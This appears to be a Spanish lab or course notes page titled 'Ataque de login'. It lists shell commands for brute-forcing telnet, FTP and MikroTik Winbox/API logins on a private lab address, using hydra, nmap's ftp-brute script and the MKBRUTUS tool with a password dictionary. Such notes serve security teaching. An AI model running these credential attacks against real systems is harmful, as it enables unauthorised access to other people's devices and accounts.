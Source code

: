 ```yaml
---
theme: "just-the-docs"
title: "Ataque de login"
layout: default
nav_order: 7
parent: "ARRAY DIINF 2024"
---
```

```bash
cd /home/lesand/Desktop/tools/diccionarios
echo "admin" > usuarios.txt
```
# Ataque TELNET
## NMAP
```bash
ls /usr/share/nmap/scripts/
```
```bash
hydra -L usuarios.txt -P diccionario.txt telnet://192.168.85.134
```
# Ataque FTP
```bash
nmap -p 21 --script ftp-brute --script-args userdb=usuarios.txt,passdb=diccionario.txt 192.168.85.134
```
# Winbox/API Mikrotik
```bash
cd /home/lesand/Desktop/tools
git clone https://github.com/mkbrutusproject/MKBRUTUS.git
cd MKBRUTUS
python3 mkbrutus.py -t 192.168.85.134 -d /home/lesand/Desktop/tools/diccionarios/diccionario.txt
```
